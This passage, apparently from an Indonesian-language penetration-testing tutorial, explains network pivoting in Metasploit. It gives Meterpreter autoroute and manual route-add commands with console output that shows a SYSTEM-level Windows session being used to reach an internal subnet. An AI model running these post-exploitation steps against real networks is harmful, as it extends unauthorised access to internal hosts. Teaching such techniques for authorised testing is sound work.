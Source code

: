    Misalnya, mesin `A` bisa melihat jaringan internal `192.168.1.0/24`:

   ```
   run autoroute -s 192.168.1.0/24
   ```

   Keterangan:
    - `-s`: (subnet) jaringan internal target: `192.168.1.0/24`

   Hasil output-nya seperti ini:

   ```
   meterpreter > run autoroute -s 192.168.1.0/24
   [!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
   [!] Example: run post/multi/manage/autoroute OPTION=value [...]
   [*] Adding a route to 192.168.1.0/255.255.255.0...
   [+] Added route to 192.168.1.0/255.255.255.0 via 192.168.1.45
   [*] Use the -p option to list all active routes
   ```

   Atau secara manual:
 
   ```
   background
   route add 192.168.1.0 255.255.255.0 4
   ```

   Keterangan:
   - `192.168.1.0`: Alamat IP Network target
   - `192.168.1.255`: Alamat IP Broadcast target
   - Angka `4`: Sesi ID Meterpreter

   Hasil output-nya seperti ini:

   ```
   meterpreter > background 
   [*] Backgrounding session 4...
   msf6 auxiliary(scanner/discovery/arp_sweep) > sessions 

   Active sessions
   ===============

     Id  Name  Type                     Information                     Connection
     --  ----  ----                     -----------                     ----------
     4         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ ADMIN-PC  192.168.1.42:4444 -> 192.168.1.45:49160 (192.168.1.45)

   msf6 auxiliary(scanner/discovery/arp_sweep) > route add 192.168.1.0 255.255.255.0 4
   [*] Route added
   msf6 auxiliary(scanner/discovery/arp_sweep) > 
   ```

   Cek route yang sudah ada:

   ```
   route print
   ```
